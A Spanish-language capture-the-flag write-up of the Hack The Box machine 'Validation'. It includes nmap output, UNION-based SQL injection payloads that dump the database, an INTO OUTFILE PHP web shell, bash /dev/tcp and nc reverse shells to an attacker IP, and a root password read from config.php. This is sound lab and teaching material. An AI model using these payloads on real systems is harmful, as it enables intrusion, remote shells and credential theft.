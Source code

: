 1. Escaneo con nmap

```console
└─$ nmap -sCV -Pn -T5 10.10.11.116

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

└─$ whatweb http://10.10.11.116:80
http://10.10.11.116:80 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Ap
ache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]

└─$ whatweb http://10.10.11.116:8080
http://10.10.11.116:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
```
2. La web en el puerto 80 -> Es una web php por lo que dice el escaneo. Te da un formulario con el nombre y un pais -> Pongo "cucuxii:Canada" y 
me dirige a /account.php donde sale una lista (vacia) de otros jugadores en esa zona.

Se me ocurrieron tanto un STTI (por estar reflejado mi input (nombre)) como un sqli, ya que intuyo que la query puede ser algo como esto 
```
SELECT player FROM players WHERE country='Canada';
```

La peticion se tramita tal que asi "POST a / -> 'username=cucuxii&country=Canada' -> redirect a /account.php" donde me setea una cookie como 
"1a5bf49db4c2f7f4cf8f1645e1fd3cc5" (no parece base64 ni hexadecimal...)

Intente formar un error sqli como "Canada'" y salio un error como este 
```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in 
/var/www/html/account.php on line 33
``` 
Investigue de que se trataba este error y sale porque se ha puesto mal una query sql. Si ponemos "' -- -" ya no sale porque se ha cerrado 

3. SQLI:
```' union select 1-- -``` devuelve 1 en la respuesa, o sea ya tenemos campo que explotar.  
```' union select database()-- - # -> registration```  
```' union select schema_name from information_schema.schemata-- -   # -> mysql registration```  
```' union select table_name from information_schema.tables where table_schema = 'registration'-- -```  
```' union select column_name from information_schema.columns where table_schema = 'registration' and table_name ='registration'-- - # -> username   userhash```   
```' union select group_concat(username,0x3a,userhash) from registration-- -```  
Aun asi esta ultima query solo me devolvia los hashes de mis usuarios que he ido creando.  

4. Shell  
```' union select "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -```  
Me ha dado el error, pero luego la ruta existir existia diciendo que no puedo dar un comando en blanco.  

He hecho una peticion tal que asi y me ha dado una shell como www-data:   
```
http://10.10.11.116/shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'  
http://10.10.11.116/shell.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.8 443 >/tmp/f  
```

```
└─$ sudo nc -nlvp 443
www-data@validation:/var/www/html$ ls  # -> config.php  
www-data@validation:/var/www/html$ cat config.php # ->   $password = "uhc-9qual-global-pw";  
www-data@validation:/var/www/html$ su root # -> Password: uhc-9qual-global-pw  
```


